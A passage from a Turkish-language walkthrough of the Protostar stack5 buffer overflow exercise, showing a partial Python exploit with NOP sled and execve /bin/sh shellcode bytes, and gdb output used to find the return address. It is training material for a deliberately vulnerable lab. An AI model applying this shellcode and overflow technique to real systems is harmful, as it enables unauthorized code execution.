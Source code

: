 Kodun toplam boyutu 28 byte, bizim dolduracağımız alan ise 76 byte idi. Bu alanı 44 + 28 + 4 + 4 olarak ayırabiliriz. Burada ilk 44 bytelık bölümü nop (\x90) ile dolduracağım. Nop komutu işlemcide boş komut gibi bir şey diyebiliriz. Herhangi bir işlem yapmadan geçiyor yani. Ben de ilk bölümü nop ile doldurarak atlama alanımı geniş tutmaya çalışıyorum. Nop olan bi yere zıplaıktan sonra işlemci nopları atlaya atlaya gidip bizim shellcodeumuza gelecek ve onu çalıştıracak. Bunu basit bi python scriptine çevirebiliriz:
```python
nops = '\x90'*44
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
ebp = "B"*4
return_addr = 
```
Şimdi atlayacağımız adresi bulmamız lazım. Programı gdb ile açıp bakalım.
0xbffff634
```bash
user@protostar:/tmp$ gdb /opt/protostar/bin/stack5 -q
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) disas main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   %ebp
0x080483c5 <main+1>:	mov    %esp,%ebp
0x080483c7 <main+3>:	and    $0xfffffff0,%esp
0x080483ca <main+6>:	sub    $0x50,%esp
0x080483cd <main+9>:	lea    0x10(%esp),%eax
0x080483d1 <main+13>:	mov    %eax,(%esp)
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.
(gdb) b* 0x080483ca
Breakpoint 1 at 0x80483ca: file stack5/stack5.c, line 7.
(gdb) b*0x080483da
Breakpoint 2 at 0x80483da: file stack5/stack5.c, line 11.
.
.
.(buaraları atlıyorum)
.
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCDDDD

Breakpoint 2, 0x080483da in main (argc=Cannot access memory at address 0x4343434b
) at stack5/stack5.c:11
11	in stack5/stack5.c
(gdb) i r
eax            0xbffff620	-1073744352
ecx            0xbffff620	-1073744352
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff66c	0xbffff66c
ebp            0x43434343	0x43434343
esi            0x0	0
edi            0x0	0
eip            0x80483da	0x80483da <main+22>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/60x $esp-100
0xbffff608:	0xbffff668	0x080483d9	0xbffff620	0xb7ec6165
```